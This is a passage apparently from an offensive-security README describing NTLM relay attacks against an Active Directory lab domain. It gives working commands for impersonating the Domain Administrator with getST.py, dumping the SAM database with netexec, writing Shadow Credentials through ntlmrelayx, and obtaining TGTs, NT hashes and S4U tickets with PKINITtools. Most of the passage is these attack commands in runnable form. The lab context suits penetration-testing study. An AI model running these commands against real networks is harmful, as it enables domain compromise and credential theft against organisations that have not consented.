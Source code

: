 You can see that it successfully added a new computer account, and enabled delegation from the newly added computer account to `MS$`. 

The next step is to request a service ticket with `getST.py` by specifying the computer accounts username and password, while delegating to the Domain Administrator (DA)
```
getST.py -spn 'cifs/ms.lab.lan' -impersonate Administrator -dc-ip '192.168.1.2' 'lab.lan/AVQTBFIR$:Qox;+,3DeAsIgc}'
```
![image](https://github.com/user-attachments/assets/367c1ee0-adb2-4cb1-9cf2-0d146eaf04b8)

Now we've successfully obtained a ticket for the Domain Admin, specifically for access to `MS$`, we can use this to obtain command execution on `MS$` or dump it's SAM (Security Account Manager) database as an example of administrative capabilities, as seen here:
```
KRB5CCNAME=Administrator.ccache netexec smb 192.168.1.3 --use-kcache --sam
```
![image](https://github.com/user-attachments/assets/aba9eb72-1bbb-4090-8825-6510625581f9)

#### Relaying to Shadow Credentials

To relay with the post-exploitation method being Shadow Credentials, first set up your relay command with the `--shadow-credentials`, then successfully coerce HTTP authentication:
```
ntlmrelayx.py -t ldaps://192.168.1.2 -smb2support --shadow-credentials --no-dump --no-da --no-acl --no-validate-privs -debug
```
![image](https://github.com/user-attachments/assets/6f74c6b9-e8b7-4333-830b-7e89ef01ebaa)

You can see that we have updated the msDS-KeyCredentialLink attribute, and we can run `gettgtpkinit.py` from PKINITtools to grab a valid TGT!

```
python3 PKINITtools/gettgtpkinit.py -cert-pfx RFN6Gg0U.pfx -pfx-pass W5Ana58pFGhvblyFDgpJ lab.lan/MS$ RFN6Gg0U.ccache
```
![image](https://github.com/user-attachments/assets/b61194b2-398a-46e9-ae31-331aa27a49ff)

We can either utilize this to grab the NT hash of the machine account like so:

```
KRB5CCNAME=RFN6Gg0U.ccache python3 PKINITtools/getnthash.py -key 4fdb7a60ed6e170c216e160ac88cb63b96337efa557c681cc7b633228a53d03b -dc-ip 192.168.1.2 'lab.lan/MS$'
```
![image](https://github.com/user-attachments/assets/bd48a48f-565c-446f-9be0-e9d33957786f)

Since a computer account is automatically registered on creation as a `servicePrincipalName` (SPN), we could utilize this hash to create a silver ticket and impersonate the Domain Admin (DA) on the target account. 

Or use it to impersonate a Domain Admin and gain command execution onto `MS$`
```
python3 PKINITtools/gets4uticket.py 'kerberos+ccache://lab.lan\MS$:RFN6Gg0U.ccache@192.168.1.2' 'cifs/ms.lab.lan@lab.lan' 'Administrator@lab.lan' admin.ccache
```
